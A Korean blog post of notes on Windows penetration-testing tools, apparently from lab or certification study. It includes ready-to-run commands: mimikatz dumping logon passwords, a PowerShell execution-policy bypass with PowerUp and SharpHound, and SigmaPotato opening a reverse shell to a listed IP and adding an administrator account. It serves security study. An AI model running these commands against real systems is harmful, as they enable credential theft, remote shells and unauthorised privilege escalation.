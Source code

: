 ```yaml
---
layout: post
title: 유용한 윈도우 툴 모음집
subtitle: 많이 쓰는 윈도우 툴 모음집
category: knowledge
thumbnail-img: /assets/img/hazard.jpg
tags: [windows, tool]
author: Hong
---
```


이번에는 저번 포스팅에 이어서 윈도우 편.

# mimikatz

debug privilege가 있을 때 사용 할 수 있는 툴.

로컬 시스템의 유저 정보와 NTLM해쉬 등을 알 수 있다.

[mimikatz](https://github.com/ParrotSec/mimikatz/tree/master)

evil-winrm의 경우 mimikatz를 실행하면 버그가 걸리는데 이럴 때는 리버스쉘로 옮기거나 원라이너로 명령어를 넘겨주면 된다.

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```

# Runas

GUI 환경에서 사용할 수 있는 툴.

다른 유저로서 조작하는게 가능하다.

래터럴 무브먼트에 사용하거나 관리자로 실행하는데 활용할 수 있다.

```
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...

PS C:\Users\steve>
```

# winpeas

linpeas의 윈도우 버전.

[winpeas](https://www.kali.org/tools/peass-ng/)

# seatbelt.exe

winpeas같은 툴

# powerup.ps1

칼리에 기본적으로 깔려있다.

`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`

쓰기 권한을 가진 파일들을 조회하는게 가능하다.

```
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

# powerview.ps1

이것도 칼리에 기본적으로 있는 툴.

도메인 정보를 파악할 때 유용하다.

사용하기 전에 모듈을 임포트해서 사용한다. `Import-Module`

`Find-LocalAdminAccess`같이 사용 가능.

# sigmapotato

SeImpersonatePrivilege Impersonate a client after authentication Enabled일 때 사용 할 수 있는 툴.

[sigmapotato](https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6)

바로 리버스쉘로 연결하는 것도 가능하다.

`.\SigmaPotato.exe --revshell 192.168.45.181 9999`

그 밖에도 유저를 추가하거나 수정하는 것도 할 수 있다.

```
.\SigmaPotato "net user hong password /add"

PS C:\temp> .\SigmaPotato.exe "net user hong password /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1020
[+] Current Command Length: 27 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5532

[+] Process Output:
The command completed successfully.

.\SigmaPotato "net localgroup Administrators hong /add"

PS C:\temp> .\SigmaPotato.exe "net localgroup Administrators hong /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1016
[+] Current Command Length: 39 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 6184

[+] Process Output:
The command completed successfully.
```

# winsimpleHTTP

감탄했던 툴 중에 하나.

파이썬이 설치되어 있지 않아도 간단하게 웹서버를 세울 수 있다. 파일을 옮기거나 할 때 편리하다.

[winsimplehttp](https://github.com/remisarrailh/WinSimpleHTTP)

# sharphound

[다운로드 링크](https://github.com/SpecterOps/SharpHound/releases)에서 맞는 버전의 바이너리 파일을 다운받는다.

예를들어 bloodhound의 버전이 4.3.1인 경우 꽤 오래된 버전인 sharphound는 1.1.1을 다운받아야하는데 [이 링크](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)에서 받을 수 있다.

```powershell
powershell -ep bypass
Import-Module .\Sharphound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp -OutputPrefix "corp audit"
```
압축 파일이 생성되는데 이 파일을 bloodhound에 업로드해서 분석할 수 있다.

bin파일은 캐시 정보를 포함할 뿐이기 때문에 지워도 상관없다.

## bloodhound
zip 파일을 칼리로 옮겼다면 bloodhound를 실행해서 업로드하면 된다.
```sh
sudo neo4j start # 초기 비밀번호neo4j/neo4j

bloodhound
```